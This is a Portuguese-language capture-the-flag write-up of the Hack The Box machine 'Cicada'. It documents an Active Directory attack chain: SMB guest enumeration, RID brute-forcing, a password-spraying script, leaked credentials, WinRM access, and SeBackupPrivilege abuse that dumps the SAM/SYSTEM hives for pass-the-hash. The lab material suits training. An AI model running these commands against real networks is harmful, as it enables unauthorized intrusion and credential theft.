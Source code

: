 # Cicada

## Resumo

Essa é uma máquina Windows classificada de dificuldade fácil que envolve a exploração básica de um Active Directory. De início, foi necessário identificar o serviço SMB em execução, e então obter uma pasta compartilhada disponível publicamente que continha uma senha. Após isso, foi necessário enumerar usuários por meio de RID brute-force e então realizar um ataque de password spraying para obter credenciais válidas. Com isso, foi possível utilizar o `ldapdomaindump` para extrair informações sobre o Active Directory, possibilitando encontrar outras credenciais válidas. A partir dessas credenciais, foi possível listar outra pasta compartilhada no SMB, dessa vez com as credenciais do usuário `emily.oscars`, o qual permitia acesso via `WinRM`, possibilitando acesso remoto e encontrar a primeira flag. Para escalar privilégio, foi possível explorar o privilégio `SeBackupPrivilege` do usuário autenticado para extrair o hash do usuário administrador do sistema.

## Reconhecimento

Realizei uma varredura de portas TCP com o `nmap` para identificar os serviços em execução, o que possibilitou encontrar as seguintes portas respondendo:

```bash
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-01-07 17:13:33Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
62741/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

Analisando a resposta, esses são serviços comuns de se encontrar em um servidor Windows e estão relacionados ao Active Directory. Dentre os serviços disponíveis, as portas 139 e 445 indicam a presença de um servidor SMB. Acessando como usuário convidado (`guest`), os seguintes compartilhamentos são listados:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadasmbmap.png" alt=""><figcaption><p>HTB Cicada - SMBMap</p></figcaption></figure>

Perceba que o usuário convidado tem permissão de leitura à pasta compartilhada `HR`. Listando o conteúdo compartilhado, é possível encontrar um arquivo `Notice from HR.txt`:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadasensitive-file.png" alt=""><figcaption><p>HTB Cicada - Arquivo sensível encontrado</p></figcaption></figure>

É possível baixar esse arquivo com o seguinte comando:

```bash
smbmap -u 'guest' -p '' -H 10.10.11.35 -s 'HR' --download 'HR/Notice from HR.txt'
```

Listando o conteúdo do arquivo, é possível encontrar a seguinte mensagem informando a senha padrão de um usuário não identificado:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadashared-password.png" alt=""><figcaption><p>HTB Cicada - Senha encontrada em arquivo compartilhado</p></figcaption></figure>

Com a senha de um usuário ainda não identificado, foi necessário varrer o Active Directory em busca de possíveis usuários para tentar combinar com a senha. Utilizando o `crackmapexec` por meio do seguinte comando:

```bash
crackmapexec smb 10.10.11.35 -d cicada.htb -u 'guest' -p '' --rid-brute
```

Foi possível obter os seguintes resultados:

```bash
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
<...SNIP>
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

## Exploração

### Usuário michael.wrightson

Com uma lista de usuários, agora basta realizar um ataque de [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack) em busca de uma combinação de usuário e senha válidos. Desenvolvi um breve script em BASH para automatizar essa tarefa, utilizando os usuários obtidos e o `crackmapexec` para validar as credenciais:

```bash
USERS=$(grep 'CICADA\\' crackmapexec/rid-brute | awk '{print $6}' | cut -d '\' -f 2 | sort -u)
for user in ${USERS}; do
  crackmapexec smb 10.10.11.35 -u "${user}" -p 'Cicada$M6Corpb*@Lp#nZp!8' | grep '[+]' 2> /dev/null | tee crackmapexec/password-spray;
done
```

Mesmo filtrando apenas os resultados válidos, o script retornou diversos falsos positivos:

```bash
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Allowed:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Cert:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Cloneable:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Denied:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Dev:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\DnsAdmins:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\DnsUpdateProxy:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Domain:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Enterprise:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Group:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Groups:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Key:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Protected:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Read-only:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Schema:Cicada$M6Corpb*@Lp#nZp!8 
```

Observe que dentre os resultados obtidos, o usuário `michael.wrightson` se destaca por ser dentre os únicos da lista que foi adicionado por um administrador, não sendo um usuário padrão. Por conta disso, utilizei ele para tentar fazer login em outros serviços (nesse caso, o LDAP) e tive sucesso.&#x20;

### Usuário david.orelious

Utilizando a ferramenta `ldapdomaindump`, obtive os seguintes resultados:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadaldapdomaindump.png" alt=""><figcaption><p>HTB Cicada - ldapdomaindump</p></figcaption></figure>

Analisando o resultado do arquivo `domain_users.json`, é possível encontrar a senha do usuário david.orelious:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption><p>HTB Cicada - Senha do usuário David</p></figcaption></figure>

### Usuário emily.oscars

Novamente utilizando o SMBMap, mas dessa vez com as credenciais do usuário David, é possível identificar uma permissão de leitura da pasta compartilhada `DEV`.

<figure><img src="../../../.gitbook/assets/ctfhtbcicadadev-share.png" alt=""><figcaption><p>HTB Cicada - Pasta compartilhada DEV</p></figcaption></figure>

Nela, está contido um script PowerShell com o seguinte conteúdo:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "<REDACTED>" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Com as credenciais do usuário `emily.oscars`, é possível se autenticar remotamente por meio do protocolo `WinRM`. Utilizando a ferramenta `evil-winrm`, acessei a máquina e obtive a flag de usuário:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadawinrm.png" alt=""><figcaption><p>HTB Cicada - acesso remoto via WinRM</p></figcaption></figure>

## Escalação de Privilégios

Listando as informações sobre o usuário `emily.oscars` por meio do comando `whoami /all`, é possível encontrar os seguintes privilégios:

```powershell
Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled <
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

É possível escalar privilégio utilizando a permissão [SeBackupPrivilege](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html#local-attack). Utilizando os seguintes comandos, é possível criar um diretório `C:\Temp` e copiar os arquivos `SAM` e `SYSTEM` utilizando o `robocopy`:

```
mkdir C:\Temp
robocopy /b C:\Windows\System32\Config C:\Temp SAM
robocopy /b C:\Windows\System32\Config C:\Temp SYSTEM
```

Com isso, é possível baixar os arquivos na máquina local por meio do comando `download` do `evil-winrm`, e extrair os hashes por meio do `secretsdump.py`, script disponível por meio do `ImPacket`.

<figure><img src="../../../.gitbook/assets/ctfhtbcicadasecretsdump.png" alt=""><figcaption><p>HTB Cicada - Hashes do secretsdump.py</p></figcaption></figure>

Por fim, basta se autenticar por meio do `evil-winrm` como usuário administrador utilizando a técnica de [Pass The Hash](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack/).

<figure><img src="../../../.gitbook/assets/ctfhtbcicadapth.png" alt=""><figcaption><p>HTB Cicada - Pass The Hash do usuário Administrator</p></figcaption></figure>
